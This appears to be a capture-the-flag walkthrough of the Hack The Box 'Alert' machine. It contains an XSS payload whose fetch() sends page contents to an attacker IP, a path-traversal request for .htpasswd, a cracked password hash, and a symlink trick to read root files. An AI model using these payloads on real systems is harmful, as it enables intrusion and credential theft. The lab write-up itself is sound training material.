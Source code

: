 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png){width="3.5104669728783904in"
height="1.2959995625546807in"}

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png){width="4.287999781277341in"
height="1.495550087489064in"}

**INFO:** According to title Alert, it should be XSS vulnerability

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png){width="3.644000437445319in"
> height="1.6600185914260717in"}

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png){width="3.04in"
height="0.21628062117235344in"}

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png){width="6.291666666666667in"
height="1.3916666666666666in"}

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png){width="3.56334208223972in"
height="1.4240004374453192in"}

Result

![](images/media/image7.png){width="5.8080336832895885in"
height="0.8679997812773403in"}

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png){width="3.4479997812773404in"
height="0.538180227471566in"}

4.  asdf

5.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png){width="6.3in"
height="1.1090277777777777in"}

6.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png){width="4.291999125109362in"
height="1.6506594488188977in"}

Right click -\> copy link

7.  ![](images/media/image11.png){width="4.119104330708661in"
    height="3.6359995625546806in"}![](images/media/image12.png){width="4.11875in"
    height="1.044669728783902in"}

8.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png){width="4.36in"
height="2.2501673228346455in"}

9.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png){width="6.3in"
height="0.5930555555555556in"}

10. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png){width="6.291666666666667in"
height="1.8958333333333333in"}

11. Create file **alert.hash** and paste hash in it

12. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png){width="6.295833333333333in"
height="4.624305555555556in"}

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

13. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png){width="6.3in"
height="0.41805555555555557in"}

14. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png){width="2.5119991251093614in"
height="0.742017716535433in"}

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png){width="3.6559995625546806in"
height="0.8789391951006125in"}

15. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png){width="4.1719991251093616in"
height="2.4497615923009626in"}

16. Firefox access **127.0.0.1:8080**

![](images/media/image21.png){width="2.982192694663167in"
height="3.8519991251093613in"}

17. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png){width="4.08992782152231in"
height="1.82in"}

18. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png){width="2.84in"
height="4.408383639545057in"}

19. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png){width="4.42in"
height="1.7704396325459317in"}

[Root.txt FLAG]{.mark}
